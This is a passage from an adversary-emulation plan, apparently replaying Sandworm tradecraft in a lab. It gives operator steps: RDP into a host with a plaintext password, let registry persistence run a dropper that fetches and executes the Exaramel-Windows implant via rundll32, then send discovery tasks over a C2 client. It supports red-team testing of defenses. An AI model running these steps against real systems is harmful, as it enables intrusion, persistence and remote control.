 Terminate the PsExec.py session. Keep your terminal open.

```bash
exit
```

You will now RDP into gammu, role-playing as the legitimate fherbert user.

```bash
xfreerdp +clipboard /u:WORKGROUP\\fherbert /p:"Whg42WbhhCE17FEzrqeJ" /v:10.0.1.7
```

:warning: Keep the gammu-RDP window open.

On login, the fherbert registry persistence will execute the exaramel-windows-dropper (wsmprovav.exe).

The dropper will download Exaramel-Windows over HTTP. The dropper then executes the Exaramel-Windows (wsmprovav.dll) using rundll32.exe.

[Source Code](../../Resources/Exaramel-Windows-Dropper/main.cpp)

:warning: Switch to your control server terminal; you should have a new C2 session from Exaramel-Windows.

#### :microscope: Cited Intelligence

* <https://blog.talosintelligence.com/2017/06/worldwide-ransomware-variant.html>

* <https://securelist.com/be2-custom-plugins-router-abuse-and-target-profiles/67353/>

* <https://blog.talosintelligence.com/2018/02/olympic-destroyer.html>

* <https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/>

<br>

### Step 16 - Windows Discovery

:microphone: `voice track`

Using the Exaramel-Windows C2 channel, Sandworm obtains the current username, OS version, performs a recursive file listing, and queries for RDP connections.

#### ☣️ Procedures

Place your cursor on the second pane in the control server window.

Run the following discovery commands:

Get current user.

```bash
# Sandworm Team has collected the username from a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "get-user"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L36)

Get Windows version info.
